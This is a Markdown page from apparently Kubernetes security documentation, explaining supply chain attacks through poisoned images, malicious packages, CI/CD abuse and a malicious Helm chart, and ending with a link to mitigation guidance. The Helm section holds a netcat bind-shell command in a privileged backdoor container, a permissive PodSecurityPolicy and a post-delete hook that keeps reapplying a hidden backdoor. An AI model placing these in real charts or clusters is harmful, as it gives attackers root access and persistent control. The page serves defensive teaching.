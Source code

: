 ```yaml
---
sidebar_position: 10
title: "Supply Chain Attacks"
description: "How attackers compromise container images, dependencies, CI/CD pipelines, and Helm charts to infiltrate Kubernetes clusters."
---
```


# Supply Chain Attacks

A **supply chain attack** in Kubernetes involves **compromising container images, software dependencies, CI/CD pipelines, or Helm charts** to inject malicious code into workloads. Attackers use these vulnerabilities to **gain initial access, escalate privileges, and exfiltrate sensitive data**.

---

## Exploitation Steps: Compromising the Software Supply Chain

An attacker injects malicious code into a Kubernetes deployment by exploiting weaknesses in the container build process.

### Step 1: Poison a Public Image

The attacker publishes a **malicious container image** to a public registry:

```bash
docker build -t attacker/malicious-app .
docker push docker.io/attacker/malicious-app
```

If an organization unknowingly pulls this image, it introduces malicious code into production.

### Step 2: Exploit Weak Image Verification

An organization deploys a container without verifying its source:

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: vulnerable-app
spec:
  template:
    spec:
      containers:
        - name: app
          image: docker.io/attacker/malicious-app
```

Since no image signing or verification is enforced, the compromised container runs in the cluster.

### Step 3: Inject Malicious Dependencies

If the CI/CD pipeline **does not validate third-party dependencies**, the attacker injects a malicious package into a widely used library.

Example of an attacker publishing a compromised package:

```bash
npm publish compromised-library
```

Developers unknowingly include this package in their applications, allowing remote code execution.

### Step 4: Compromise CI/CD Pipeline

The attacker exploits misconfigured CI/CD secrets to modify Kubernetes manifests:

```bash
kubectl apply -f attacker-modified-deployment.yaml
```

By injecting malicious configurations, the attacker gains persistent access to the cluster.

---

## Exploitation Steps: Deploying a Malicious Helm Chart

An attacker manipulates Helm charts to introduce **unauthorized workloads, privilege escalation, or backdoors** into a Kubernetes cluster.

### Step 1: Publish a Malicious Helm Chart

The attacker creates a Helm chart containing **hidden malicious configurations**:

```yaml
apiVersion: v2
name: malicious-app
version: 1.0.0
description: "A vulnerable Helm chart"
```

**Example of Malicious Workload in Values.yaml**:

```yaml
containers:
  - name: backdoor-container
    image: attacker/malicious-image
    securityContext:
      privileged: true
    command: ["/bin/sh", "-c"]
    args: ["while true; do nc -lvp 9001 -e /bin/sh; done"]
```

The attacker **uploads the chart** to a public Helm repository:

```bash
helm package malicious-app
helm push malicious-app-1.0.0.tgz oci://public-helm-repo
```

### Step 2: Exploit Unverified Helm Chart Usage

An unsuspecting user installs the chart **without verifying its integrity**:

```bash
helm repo add untrusted-repo oci://public-helm-repo
helm install vulnerable-app untrusted-repo/malicious-app
```

The **malicious container is deployed**, providing the attacker with a **reverse shell**.

### Step 3: Escalate Privileges Using a Malicious PodSecurityPolicy

If **Pod Security Policies (PSP) or admission controls** are not enforced, the attacker modifies Helm templates to allow privilege escalation:

```yaml
apiVersion: policy/v1beta1
kind: PodSecurityPolicy
metadata:
  name: privileged-psp
spec:
  privileged: true
  runAsUser:
    rule: RunAsAny
  seLinux:
    rule: RunAsAny
```

```bash
helm install --set securityPolicy.privileged=true exploit-app
```

The attack **bypasses Kubernetes security policies**, allowing **root access** on worker nodes.

### Step 4: Persist in the Cluster

The attacker modifies **Helm hooks** to maintain persistence after deletion:

```yaml
hooks:
  post-delete:
    - exec:
        command:
          [
            "/bin/sh",
            "-c",
            "while true; do sleep 60; kubectl apply -f /tmp/hidden-backdoor.yaml; done",
          ]
```

Even if the Helm release is removed:

```bash
helm uninstall exploit-app
```

The malicious workload **remains active**, ensuring long-term access.

### Result

The attacker has **infiltrated the Kubernetes environment** via a compromised supply chain, enabling **persistent access, privilege escalation, and data theft**.

---

## Mitigation Steps

To protect against **supply chain attacks**, follow the security best practices outlined in:

➡ **[Securing the Kubernetes Supply Chain](/docs/best_practices/supply_chain_mitigation)**

This guide covers techniques such as **container image signing, vulnerability scanning, CI/CD hardening, Helm security enforcement, and dependency verification** to prevent attackers from compromising the software supply chain.
